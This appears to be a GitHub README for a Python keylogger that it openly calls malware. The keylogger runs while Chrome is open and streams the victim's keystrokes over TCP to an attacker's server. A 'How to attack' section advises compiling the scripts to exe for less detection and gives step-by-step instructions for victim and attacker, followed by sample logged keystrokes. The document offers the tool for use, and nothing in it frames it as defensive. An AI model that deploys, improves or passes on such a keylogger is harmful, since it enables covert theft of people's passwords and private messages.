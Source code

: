 # Chrome_keylogger
A keylogger that starts logging when chrome is running. This malware will send the keystrokes from a TCP client back to the malicious TCP server


# How to attack:
First of all, you can edit the code a bit and compile all the scripts into exe for less detection.

Follow these steps:
  1- The victim must run program.py, when the file is ran, the keylogger and the TCP Client will start too. \n
  2- The attacker must run server.py then bind his/her IP and port. \n
  3- You will start receiving everything the victim types. \n

# Deeper demonstration:
Attacker:\n
attacker@kali:~$ python3 server.py
    
    Output:
    IP: type_your_ip_here
    Port: 8080
    Client (client_ip) connected.
    
    2020-10-12 22:05:35,120: 'h'
    2020-10-12 22:05:35,390: 'i'
    2020-10-12 22:05:36,258: Key.space
    2020-10-12 22:05:36,631: 't'
    2020-10-12 22:05:36,806: 'h'
    2020-10-12 22:05:36,963: 'e'
    2020-10-12 22:05:37,080: 'r'
    2020-10-12 22:05:37,168: 'e'
Victim:

victim@kali:~$ python3 server.py    
